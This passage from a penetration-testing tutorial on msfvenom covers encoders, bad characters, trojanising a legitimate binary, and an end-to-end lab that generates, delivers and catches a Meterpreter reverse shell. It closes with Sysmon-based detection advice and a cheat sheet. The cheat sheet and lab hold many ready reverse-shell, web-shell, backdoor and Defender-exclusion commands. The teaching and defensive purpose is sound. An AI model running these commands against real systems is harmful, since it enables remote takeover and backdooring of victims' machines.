    x64/xor_dynamic         normal     Dynamic key XOR Encoder
    x64/zutto_dekiru        manual     Zutto Dekiru
    x86/shikata_ga_nai      excellent  Polymorphic XOR Additive Feedback Encoder
    x86/call4_dword_xor     normal     Call+4 Dword XOR Encoder
    x86/countdown           normal     Single-byte XOR Countdown Encoder
    cmd/powershell_base64   excellent  Powershell Base64 Command Encoder
    ...
```

`x86/shikata_ga_nai` ("nothing can be done") is the famous one, ranked `excellent`. It is a **polymorphic XOR additive feedback** encoder: each iteration uses a different key and a self-modifying decoder, so the output bytes differ every single run even for identical input. Encode with it like this:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=443 \
         -e x86/shikata_ga_nai -i 5 -f exe -o enc.exe
```

`-i 5` runs it five times (encode the encoded output again, five layers of stub).

### The honest part: encoding is NOT antivirus evasion

For years, tutorials sold `shikata_ga_nai` as an AV-bypass trick. **It is not, and treating it as one will get you caught.** Two reasons:

1. **Encoders were built for bad-character avoidance, not evasion.** Their original job is to reshape shellcode so it survives a hostile transport (no null bytes, no newlines, printable-only, etc.). Evasion was always a side effect, and a fragile one.
2. **The decoder stub itself is signatured, and the final decoded payload is identical.** AV/EDR vendors have long since hashed the `shikata_ga_nai` stub, and even if the stub slipped past, the moment the payload decodes itself in memory it *is* the well-known Meterpreter stage again — and modern EDR scans memory, not just files. More iterations mostly makes the file bigger and *more* anomalous, not stealthier.

The correct framing: **use encoders to satisfy byte constraints (`-b`), not to beat antivirus.** Real evasion is a different discipline — custom loaders, in-memory-only execution, unhooking, sleep obfuscation, and packers written for the job — and is out of scope for a payload-generation chapter. Part 15 expands on why the modern AV/EDR reality makes "just encode it" a dead end.

---

## Part 11: Bad Characters — Finding and Eliminating Them

The legitimate, everyday reason to encode is **bad characters**: byte values that your delivery path mangles or truncates. In a buffer overflow that copies your input with `strcpy`, a null byte (`\x00`) terminates the copy and cuts your shellcode short. An HTTP-based injection may choke on `\x0a` (newline) and `\x0d` (carriage return). A path-based sink may die on `\x2f` (`/`) or `\x5c` (`\`). If any of those bytes appears in your shellcode, the payload breaks — so you tell msfvenom to produce shellcode that avoids them:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 \
         -b '\x00\x0a\x0d' \
         -f c
```

`-b '\x00\x0a\x0d'` means "the output must contain none of these three bytes." msfvenom picks an encoder (or arranges the payload) so that constraint holds. If it cannot satisfy the constraint it errors out rather than hand you broken bytes:

```
[-] No encoders encoded the buffer successfully.
Error: BadChar(s) present in payload
```

### The bad-char discovery workflow

You rarely know the bad chars up front; you *discover* them by sending all 256 byte values and watching which get corrupted in memory (in a debugger). The classic bad-char string:

```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
/* ... through 0xff ... */
)
```

You send it, inspect memory, and any byte that is missing, duplicated or truncated is bad. You add it to `-b`, regenerate, and repeat until the shellcode reaches memory intact. The loop:



| Common bad char | Hex | Why it breaks things |
|-----------------|-----|----------------------|
| Null | `\x00` | String terminator — `strcpy`, C strings truncate here. |
| Line feed | `\x0a` | Newline ends input in many text protocols. |
| Carriage return | `\x0d` | Paired with LF in HTTP; truncates. |
| Form feed / tab | `\x0c` / `\x09` | Whitespace handling in parsers. |
| Space | `\x20` | Argument/field delimiters. |
| Forward/back slash | `\x2f` / `\x5c` | Path separators; filtered in path sinks. |

**Note on `\x00`:** it is almost always bad, and msfvenom does not automatically exclude it — always start your `-b` list with `\x00` unless you have proven the sink is binary-safe.

---

## Part 12: Templates and Backdooring Legit Binaries (`-x`, `-k`)

The default `exe` embeds the payload in msfvenom's stock template — a template every AV knows. `-x`/`--template` lets you use a *different* executable as the host, and `-k`/`--keep` makes the original program keep working while the payload runs in a new thread:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -x /usr/share/windows-binaries/plink.exe \
         -k \
         -f exe -o plink_backdoored.exe
```

- `-x plink.exe` — embed the payload into a real, benign-looking `plink.exe` instead of the stock template.
- `-k` — spin the payload up in a separate thread so `plink.exe` still functions normally; without `-k` the host program's own code is overwritten and it stops doing what it's supposed to (an obvious tell if a user runs it expecting the real tool).

**Red team framing:** this is the "trojanised utility" technique — hand a target a tool that works *and* backdoors them. **Blue team framing:** it is also exactly why signature and behavioural detection matters — the file's icon, name and even most of its bytes look legitimate, so only behaviour (unexpected outbound connection, thread injection) and cryptographic signing checks catch it. It is worth stating plainly that `-k` embedding is fragile and frequently unstable across template binaries; it is more useful as a teaching example of why "the binary looks fine" is not a trust decision than as a reliable engagement technique.

---

## Part 13: Size, NOP Sleds and Fitting the Space

Exploit-dev delivery paths are often size-constrained, and msfvenom has three options for that world:

- **`-s`/`--space N`** — the total payload must be ≤ N bytes, or msfvenom errors. Use it when you know the buffer size.
- **`--encoder-space N`** — a separate size cap applied to the *encoded* form (the stub + encoded bytes), distinct from the raw `-s`.
- **`-n`/`--nopsled N`** — prepend N NOP (`\x90` on x86) bytes. A **NOP sled** is a run of do-nothing instructions so that if execution lands anywhere in the sled it "slides" down into the shellcode — forgiving when your jump target isn't byte-exact.

```bash
# 500-byte budget, 16-byte NOP sled, null-free, as a C array
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 \
         -s 500 -n 16 -b '\x00' -f c
```

`--smallest` asks msfvenom to search for the encoder/option combination producing the tiniest output — handy when every byte counts and you don't care which encoder gets you there:

```bash
msfvenom -p linux/x86/exec CMD=/bin/sh --smallest -f raw -o tiny.bin
```

A word of caution on NOP sleds: on modern 64-bit targets and against IDS, a long `\x90` sled is itself a signature. `-n` still has its place in classic stack-overflow CTFs, but do not sprinkle it reflexively.

---

## Part 14: Catching the Callback — Matching multi/handler

msfvenom builds the artifact; the listener from Chapter 4 catches it. The handler's payload, `LHOST`/`LPORT` and staged/stageless nature must match the generated payload **exactly**. The fastest way to stand one up:

```bash
# One-liner handler that mirrors the msfvenom payload
msfconsole -q -x "use exploit/multi/handler; \
set payload windows/x64/meterpreter/reverse_tcp; \
set LHOST 10.10.14.7; set LPORT 443; \
set ExitOnSession false; exploit -j"
```



The matching checklist — verify all four before blaming the payload:

| Must match | msfvenom side | Handler side |
|------------|---------------|--------------|
| Payload module | `-p windows/x64/meterpreter/reverse_tcp` | `set payload windows/x64/meterpreter/reverse_tcp` |
| Callback host | `LHOST=10.10.14.7` | `set LHOST 10.10.14.7` |
| Callback port | `LPORT=443` | `set LPORT 443` |
| Staged vs stageless | `.../reverse_tcp` (staged) | same module (staged) |

If the payload is stageless (`meterpreter_reverse_tcp`), the handler payload must be stageless too. A staged/stageless mismatch produces a TCP connection that lands and then dies with no session — one of the most confusing failure modes in the whole tool.

---

## Part 15: The AV/EDR Reality — Why Default Payloads Get Caught

It is worth being blunt because so much bad advice exists here. A **default msfvenom `exe` will be flagged by Microsoft Defender the instant it touches disk**, and no number of `shikata_ga_nai` iterations changes that. Understanding *why* makes you both a better red teamer (you'll stop wasting time) and a better blue teamer (you'll know what to detect).

Three independent detection layers catch generated payloads:

1. **Static file signatures.** The stock template, the encoder decoder-stubs, and characteristic byte patterns in the Meterpreter stager are all hashed and YARA-ruled by every major vendor. The file is recognised before it ever runs.
2. **In-memory scanning.** Even if the file is obfuscated, staged/encoded payloads reconstruct the *original* Meterpreter stage in memory. EDR scans process memory and AMSI inspects scripts at execution — so the decoded, unmistakable payload is exposed at runtime.
3. **Behavioural / telemetry detection.** The *behaviour* is loud: an unexpected process making an outbound connection to a raw IP on 443, `powershell -enc`, thread injection via `getsystem`/`migrate`, `lsass` access for `hashdump`. Sysmon + EDR flag these regardless of how the bytes were encoded.



The honest conclusion: msfvenom is a superb *payload generator and format engine*, and for labs, CTFs, exploit development, and engagements against permissive or unmanaged targets it is ideal. For getting past a modern managed EDR, encoders are not the answer and this chapter deliberately does not pretend otherwise — that is a separate, advanced evasion discipline. Knowing the boundary is part of the expertise.

---

## Part 16: Hands-On Lab — Generate, Deliver, Catch, and Analyse

This lab is fully self-contained and uses only VMs you own: a Kali attacker and a Windows 10/11 lab VM (or Windows Server) on a host-only network, plus a throwaway Linux VM. **Disable or exclude the payload directory from Defender on the lab VM for the exercise (`Add-MpPreference -ExclusionPath C:\lab`) — you are studying mechanics, not evasion.** Never point any of this at a machine you do not own.

### Step 1 — Confirm your attacker address

```bash
$ ip -brief addr show
lo      UNKNOWN  127.0.0.1/8
eth0    UP       10.10.14.7/24
```

Everything below uses `LHOST=10.10.14.7`. Set yours accordingly.

### Step 2 — Generate a Windows staged payload

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp \
           LHOST=10.10.14.7 LPORT=443 \
           -f exe -o /tmp/lab/update.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: /tmp/lab/update.exe
```

Note the two `[-]` lines: msfvenom inferred platform and arch from the payload name (Part 5), and it reports both the raw payload size (510 bytes — the tiny stager) and the final PE size.

### Step 3 — Start the matching handler

```bash
$ msfconsole -q -x "use exploit/multi/handler; \
set payload windows/x64/meterpreter/reverse_tcp; \
set LHOST 10.10.14.7; set LPORT 443; set ExitOnSession false; exploit -j"
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
LHOST => 10.10.14.7
LPORT => 443
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.10.14.7:443
```

### Step 4 — Deliver and run on the Windows lab VM

Copy `update.exe` to the lab VM (shared folder, `impacket-smbserver`, or a Python web server) and run it. Serve it from Kali:

```bash
$ cd /tmp/lab && python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

On the Windows VM (PowerShell), download and run:

```powershell
PS C:\lab> Invoke-WebRequest http://10.10.14.7:8080/update.exe -OutFile update.exe
PS C:\lab> .\update.exe
```

### Step 5 — Catch the session

Back on the handler:

```
[*] Sending stage (201798 bytes) to 10.10.14.20
[*] Meterpreter session 1 opened (10.10.14.7:443 -> 10.10.14.20:49761)

meterpreter > getuid
Server username: LAB\student
meterpreter > sysinfo
Computer        : LAB-WIN11
OS              : Windows 11 (10.0 Build 22631).
Architecture    : x64
Meterpreter     : x64/windows
```

The `Sending stage (201798 bytes)` line is the *staged* behaviour in action: the 510-byte stager phoned home and the handler pushed the ~200 KB Meterpreter stage over the wire (Part 3). Type `background` and `sessions -l` to confirm the session is held.

### Step 6 — Generate a bad-char-safe raw shellcode variant

Now the exploit-dev use case. Produce null-free shellcode as a C array with a NOP sled, sized to a hypothetical 800-byte buffer:

```bash
$ msfvenom -p windows/x64/exec CMD=calc.exe \
           -b '\x00\x0a\x0d' -n 16 -s 800 -f c
Found 3 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none succeeded with size 276 (iteration=0)
generic/none chosen with final size 276
Successfully added NOP sled of size 16
Payload size: 292 bytes
Final size of c file: 1264 bytes
unsigned char buf[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51"
/* ... */
"\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

Notice the 16-byte `\x90` sled at the front (`-n 16`), the null-free body (`-b`), and that msfvenom confirms the payload fits the 800-byte budget. This is the shape you would paste into a stack-overflow exploit.

### Step 7 — Statically analyse what you built (blue-team view)

Switch hats and look at the artifact the way a defender would:

```bash
$ file /tmp/lab/update.exe
/tmp/lab/update.exe: PE32+ executable (GUI) x86-64, for MS Windows

$ sha256sum /tmp/lab/update.exe
9f1c... (hash — pivot this into VirusTotal / your EDR)

# Look for the Meterpreter stager's tell-tale imports
$ strings -n 8 /tmp/lab/update.exe | grep -iE 'ws2_32|WSASocket|connect|recv|LoadLibrary'
ws2_32.dll
WSASocketA
connect
recv
```

Those Winsock imports (`WSASocketA`, `connect`, `recv`) and the tiny code size are exactly the static tells a YARA rule keys on. Run the file past a lab AV or upload the *hash* (never the live sample from a real engagement) to see the detection ratio. This closes the loop: you generated it, delivered it, caught it, and then saw why it is trivially detectable.

### Step 8 — A Linux ELF for completeness

```bash
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=443 -f elf -o /tmp/lab/svc
$ file /tmp/lab/svc
/tmp/lab/svc: ELF 64-bit LSB executable, x86-64, ... statically linked ...
# deliver to the Linux VM, chmod +x, run, catch with a linux/x64 handler.
```

---

## Part 17: Detection & Defense Angle

Everything above is offensive; this consolidated section is the defender's counterpart. msfvenom output is one of the most-detected artifact families in existence, and detection happens at four layers:

**On disk (static).** The stock template PE, encoder decoder-stubs (including `shikata_ga_nai`), and Meterpreter stager byte patterns are all signatured. AV file-scanning and YARA rules catch default output before it runs. Blue-team action: hunt for known-bad hashes, YARA-scan file writes to `Temp`/`Downloads`, and alert on unsigned executables in user-writable paths.

**In memory (runtime).** Staged and encoded payloads reconstruct the original stage in RAM. EDR memory scanning and AMSI (for script payloads) expose the decoded payload at execution regardless of file-level obfuscation. Blue-team action: enable AMSI, deploy an EDR that does periodic and on-demand memory scans, and alert on RWX private memory regions in normally-static processes.

**On the wire (network).** Default Meterpreter over `reverse_tcp` has recognisable staging behaviour (a small outbound connection followed by a ~200 KB inbound transfer), and even `reverse_https` has JA3/JA3S TLS-fingerprint and certificate tells. Blue-team action: alert on internal hosts making raw-IP outbound connections on 443/4444, flag the stager-then-large-transfer pattern, and baseline TLS fingerprints.

**In behaviour (telemetry).** The post-exploitation actions are the loudest signal: `powershell -nop -w hidden -enc`, thread injection (`migrate`), token manipulation (`getsystem`), and `lsass` access (`hashdump`). Map these to MITRE ATT&CK and alert on the Sysmon events below.

| Sysmon Event ID | What it catches | Relevance to msfvenom payloads |
|-----------------|-----------------|-------------------------------|
| 1 (Process Create) | Suspicious commandlines | `powershell -enc`, `rundll32 x.dll,Entry`, `msiexec /quiet /i` |
| 3 (Network Connect) | Outbound to raw IP:443/4444 | The reverse-shell callback |
| 7 (Image Load) | Unusual DLL loads | `dll` payload sideloading |
| 8 (CreateRemoteThread) | Thread injection | `migrate`, in-thread `-k` templates |
| 10 (ProcessAccess) | `lsass` handle requests | `hashdump` / credential theft |
| 11 (FileCreate) | Payload dropped to disk | `update.exe` written to `Temp` |

**Defensive controls that actually blunt this:** application allow-listing (WDAC/AppLocker) stops unsigned drop-and-run binaries cold; blocking outbound to arbitrary IPs at the egress firewall kills naive reverse shells; AMSI + Constrained Language Mode neuter script payloads; and `AlwaysInstallElevated`/unquoted-service-path hygiene removes the privesc containers (`msi`, `exe-service`) msfvenom targets. The takeaway for both sides: encoders change bytes, not behaviour, and behaviour is where defence wins.

---

## Part 18: Common Pitfalls and How to Avoid Them

- **Wrong `LHOST`.** Baking your LAN IP or `127.0.0.1` when the target is across a VPN. Always use the interface the target can reach (`tun0` on HTB/THM). The payload runs and silently dials nowhere.
- **Handler mismatch (staged vs stageless).** A `multi/handler` set to `reverse_tcp` will not catch a `meterpreter_reverse_tcp` stageless payload. Connection lands, no session. Match the module exactly.
- **Architecture mismatch.** Generating `x86` shellcode for an x64 process (or vice versa). It crashes on run. Match the bitness of the *process*, not just the OS.
- **Forgetting `\x00` in `-b`.** Null bytes are almost always bad and are not excluded automatically. Start every bad-char list with `\x00` unless you've proven the sink is binary-safe.
- **Treating encoders as AV evasion.** `-e shikata_ga_nai -i 20` makes a bigger, *more* anomalous file that Defender still flags. Encoders are for bad chars, not evasion.
- **PHP tag commented out.** The generated `.php` may start with a commented open tag; prepend an executable `<?php` or it won't run.
- **Plain `exe` where a service binary is needed.** Use `exe-service` for service-path abuse, or the SCM kills your shell in seconds.
- **Not marking ELF executable.** `chmod +x` the Linux payload or it won't run.
- **Missing `LPORT` reachability.** Egress filtering blocks 4444; move to 443 or 53 to blend with allowed traffic — and remember the handler must move too.
- **`-x` template instability.** Backdoored templates (especially with `-k`) are frequently unstable; test in the lab before relying on them.

---

## Part 19: Final Revision / Summary

- **msfvenom is the standalone payload factory** of Metasploit — it replaced `msfpayload` + `msfencode` in one tool. It builds an artifact and exits; delivery and catching are separate steps.
- **The command shape is constant:** `-p payload OPTIONS -f format -a arch --platform os [-e encoder -i n] [-b badchars] -o file`. `-l` lists payloads/encoders/formats.
- **Payload names encode meaning:** `platform/arch/type/transport`. Slashes = staged (small stager, stage sent by handler); an underscore before the transport = stageless (whole agent in the file). The handler must match the choice.
- **Formats are the point.** Executable formats (`exe`, `exe-service`, `dll`, `msi`, `elf`, `macho`, `war`, `jsp`, `aspx`, `apk`) run on the target; transform formats (`raw`, `c`, `python`, `csharp`, `ps1`, `hex`) get pasted into your own exploit or loader. Choose the container from the delivery path.
- **Encoders reshape bytes via a decoder stub.** Their real job is **bad-character elimination** (`-b`), not antivirus evasion. `shikata_ga_nai` is polymorphic but its stub and decoded payload are signatured — encoding is not evasion.
- **Bad chars** (`\x00`, `\x0a`, `\x0d`, path separators...) break payloads in constrained sinks; discover them in a debugger and strip them with `-b`. Size (`-s`), NOP sleds (`-n`) and `--smallest` handle tight buffers.
- **`-x`/`-k`** embed payloads into legitimate binaries; useful to teach why "looks legit" is not a trust decision, fragile in practice.
- **Modern EDR catches default output at four layers** — static, in-memory, network, behavioural. Know the boundary: msfvenom is unbeatable for labs, CTFs and exploit dev; beating managed EDR is a separate discipline.

---

## Part 20: Cheat Sheet / Quick Reference

```bash
# ---- Discovery ----
msfvenom -l payloads | grep 'windows/x64/meterpreter'   # filter payloads
msfvenom -l encoders                                    # list encoders + rank
msfvenom -l formats                                     # list output formats
msfvenom --list archs ; msfvenom --list platforms       # arch / platform names
msfvenom -p windows/x64/meterpreter/reverse_tcp --list-options   # payload options

# ---- Windows ----
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=443 -f exe -o s.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=443 -f exe-service -o svc.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=443 -f dll -o h.dll
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=443 -f msi -o s.msi
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=443 -f psh-cmd -o run.txt

# ---- Linux / macOS ----
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=IP LPORT=443 -f elf -o s
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=443 -f raw          # no-disk bash one-liner
msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=IP LPORT=443 -f macho -o s

# ---- Web / scripting ----
msfvenom -p php/meterpreter/reverse_tcp LHOST=IP LPORT=443 -f raw -o shell.php
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=443 -f war -o app.war
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=443 -f aspx -o shell.aspx
msfvenom -p python/meterpreter/reverse_tcp LHOST=IP LPORT=443 -f raw -o shell.py

# ---- Shellcode for exploit dev ----
msfvenom -p windows/x64/exec CMD=calc.exe -f c                       # C array
msfvenom -p linux/x64/exec CMD=/bin/sh -f python -v sc               # python bytes
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=443 \
         -b '\x00\x0a\x0d' -n 16 -s 800 -f c                         # bad-char-safe, sized, sled

# ---- Encoding (for bad chars, NOT evasion) ----
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 \
         -e x86/shikata_ga_nai -i 3 -b '\x00' -f exe -o e.exe
msfvenom -p linux/x86/exec CMD=/bin/sh --smallest -f raw -o tiny.bin

# ---- Backdoor a legit binary ----
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=443 \
         -x plink.exe -k -f exe -o plink_bd.exe

# ---- Catch it ----
msfconsole -q -x "use exploit/multi/handler; \
set payload windows/x64/meterpreter/reverse_tcp; \
set LHOST IP; set LPORT 443; set ExitOnSession false; exploit -j"
```

**Key flags at a glance**

| Flag | Meaning | Flag | Meaning |
|------|---------|------|---------|
| `-p` | payload (`-p -` = stdin) | `-b` | bad characters to avoid |
| `-f` | output format (`-f -` = stdout) | `-n` | NOP sled length |
| `-a` | architecture | `-s` | max payload size |
| `--platform` | target OS | `-x` | template binary |
| `-e` | encoder | `-k` | keep template functional |
| `-i` | encoder iterations | `-o` | output file |
| `-l` | list payloads/encoders/formats | `--smallest` | minimise size |

---

## Part 21: Practice Labs & Resources

Train the exact skills in this chapter, not generic ones:

- **TryHackMe — "Metasploit: Meterpreter"** and **"Msfvenom"**-focused rooms: generate payloads in multiple formats, deliver them, and catch sessions end to end.
- **TryHackMe — "Ice", "Blue", "Steel Mountain"**: `exe` / service-path payload delivery on Windows targets, matching handlers.
- **HackTheBox — "Jerry"** (Tomcat manager + `war` payload) and **"Grandpa"/"Granny"** (WebDAV + `aspx`): the classic web-container msfvenom workflows.
- **HackTheBox — "Optimum", "Bastard"**: public exploit + generated payload delivery.
- **PortSwigger Web Security Academy** — file-upload labs: practise the *finding* side that a `php`/`jsp` msfvenom shell would prove (use lab-only, per program rules).
- **Exploit Education — "Protostar"/"Phoenix"** and **pwn.college**: buffer-overflow rooms where you generate bad-char-safe `-f c` shellcode with `-b`, `-n`, `-s` and drop calc/`/bin/sh`.
- **Vulnerable-by-design VMs (VulnHub)** — Kioptrix and Metasploitable 2/3: safe hosts to deliver `elf`/`exe`/`war` payloads against.
- **Blue-team drill:** on your Windows lab VM, enable Sysmon (SwiftOnSecurity config), run the lab payload, and hunt for Event IDs 1/3/8/10/11. Then re-run with `-e shikata_ga_nai -i 10` and confirm the detections are unchanged — the practical proof that encoding is not evasion.

The next chapter continues the Metasploit arc into post-exploitation modules and workflow automation, building on the sessions this chapter's payloads open.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-exploitation/05-metasploit-part-3-msfvenom-payloads-and-encoders), with comments and the latest edits.*
